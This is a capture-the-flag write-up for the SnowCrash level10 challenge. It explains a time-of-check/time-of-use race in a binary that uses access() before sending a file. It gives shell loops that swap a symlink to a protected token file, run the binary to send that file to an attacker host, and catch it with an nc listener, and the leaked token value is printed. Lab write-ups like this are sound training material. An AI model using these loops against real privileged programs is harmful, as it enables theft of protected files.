 The `level10` executable sends a file to a server on port 6969, but only if the user executing it have permissions to open the file, as you can see with the `nm` command:

``` shell
level10@SnowCrash:~$ nm level10 

    ...

08048620 T _start
         U access@@GLIBC_2.0
0804a064 b completed.6159

    ...
    
```

It uses `access` system call probably to check the permisions before send it up. I you refer the `access` man page you can see the following warning:

``` 
       Warning: Using these calls to check if a user is authorized to,
       for example, open a file before actually doing so using open(2)
       creates a security hole, because the user might exploit the short
       time interval between checking and opening the file to manipulate
       it.  For this reason, the use of this system call should be
       avoided.  (In the example just described, a safer alternative
       would be to temporarily switch the process's effective user ID to
       the real ID and then call open(2).)
```

We can use this exploit:

 - First: In one shell instance we can create a infinite loop that will create a file in `/tmp` so we have access to it, and substitute it with a symbolic link to our token file over and over again:

``` shell
while true; do 
    rm -f /tmp/dummy;
    ln -s /home/user/level10/token /tmp/dummy;
    rm -f /tmp/dummy;
    echo "dummy" > /tmp/dummy;
done
```

-Second: In another shell instance just create an infinite loop of the `level10` executable calling this file to our host:

``` shell
while true; do
    ./level10 /tmp/dummy 192.168.1.18;
done
```

-Third: Lastly in our host machine for example (`192.168.1.18` in our case) put a server listening and discard all the "dummy" content:

``` shell
➜  Resources git:(master) ✗ nc -lk -p 6969 | grep -v 'dummy\|.*( )*.'
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
```

And here you have the token.
